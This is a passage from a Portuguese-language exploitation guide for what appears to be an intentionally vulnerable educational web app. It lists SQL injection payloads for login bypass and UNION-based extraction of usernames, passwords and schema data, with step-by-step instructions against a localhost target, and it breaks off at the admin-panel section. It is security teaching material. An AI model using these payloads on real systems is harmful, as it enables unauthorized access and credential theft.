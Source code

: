# 🔓 Guia Prático de Exploração de Vulnerabilidades

Este documento demonstra como explorar as vulnerabilidades implementadas nesta aplicação educacional.

## ⚠️ AVISO IMPORTANTE
**Esta aplicação é propositalmente vulnerável para fins educacionais. NUNCA use essas técnicas em sistemas reais sem autorização explícita.**

---

## 💉 SQL Injection

### 1. Bypass de Login

#### Payloads Básicos:
```sql
# Campo usuário:
admin' OR '1'='1'--
admin' OR '1'='1'#
admin' OR 1=1--
' OR 1=1--
' OR '1'='1
```

#### Payloads Avançados:
```sql
# Union-based injection para extrair dados:
admin' UNION SELECT 1,username,password,4,5,6,7 FROM users--

# Extrair informações do sistema:
admin' UNION SELECT 1,USER(),VERSION(),DATABASE(),5,6,7--

# Listar tabelas:
admin' UNION SELECT 1,table_name,2,3,4,5,6 FROM information_schema.tables WHERE table_schema=database()--
```

#### Como Testar:
1. Acesse `http://localhost/Azure-Web-App---Vuln/index.php`
2. No campo "Usuário", digite: `admin' OR '1'='1'--`
3. No campo "Senha", digite qualquer coisa
4. Clique em "Login"
5. Você será logado como admin sem saber a senha!

### 2. SQL Injection no Painel Admin

1. Acesse: `http://localhost/Azure-Web-App---Vuln/admin.php?admin=true`
2. Use a seção "Executar Query Personalizada"
3. Experimente estas queries:
